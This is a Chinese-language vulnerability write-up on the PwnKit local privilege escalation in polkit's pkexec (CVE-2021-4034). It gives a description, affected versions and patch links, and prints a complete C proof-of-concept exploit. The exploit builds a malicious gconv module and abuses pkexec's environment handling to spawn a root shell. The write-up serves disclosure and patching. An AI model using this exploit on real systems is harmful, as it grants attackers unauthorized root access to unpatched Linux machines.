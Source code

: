 ```yaml
---
title: polkit的pkexec中的本地权限提升漏洞（CVE-2021-4034）
comments: true
tags:
  - cve
  - Linux提权
  - polkit
  - pkexec
categories: cve
keywords: CVE-2021-4034
top_img: >-
  https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/f3661802ec6148638346c518cecd28cc.png
cover: >-
  https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/f3661802ec6148638346c518cecd28cc.png
abbrlink: e93d8453
date: 2022-01-28 10:44:29
---
```


﻿# polkit的pkexec中的本地权限提升漏洞 (CVE-2021-4034)

## 遵纪守法

任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益

## 漏洞描述

polkit 的 pkexec 实用程序中存在一个本地权限提升漏洞。当前版本的 pkexec 无法正确处理调用参数计数，并最终尝试将环境变量作为命令执行。攻击者可以通过控制环境变量来利用这一点，从而诱导 pkexec 执行任意代码。利用成功后，会导致本地特权升级，非特权用户获得管理员权限。

## 风险等级

高危

## 影响版本

由于为系统预装工具，目前主流Linux版本均受影响。

## 资产确定

主流linux

## 漏洞检测

**POC**

```
/*
 * Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) by Andris Raugulis <moo@arthepsy.eu>
 * Advisory: https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```

## 漏洞复现

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/f3661802ec6148638346c518cecd28cc.png)

## 修复建议

**通用修补建议**
根据影响版本中的信息，排查并升级到安全版本

**临时修补建议**
目前各Linux发行版官方均已给出安全补丁，建议用户尽快升级至安全版本，或参照官方说明措施进行缓解，CentOS、Ubuntu及Debian用户可参考以下链接：
https://ubuntu.com/security/CVE-2021-4034
https://access.redhat.com/security/cve/CVE-2021-4034
https://security-tracker.debian.org/tracker/CVE-2021-4034

